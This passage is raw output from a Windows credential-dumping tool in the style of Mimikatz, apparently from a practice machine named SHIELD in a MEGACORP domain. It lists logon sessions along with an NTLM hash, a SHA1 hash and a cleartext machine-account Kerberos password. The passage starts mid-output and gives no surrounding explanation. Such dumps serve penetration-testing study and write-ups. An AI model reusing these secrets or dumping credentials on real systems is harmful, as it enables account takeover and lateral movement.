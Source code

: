 ```powershell
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:08 PM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 65619 (00000000:00010053)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:08 PM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:07 PM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
```
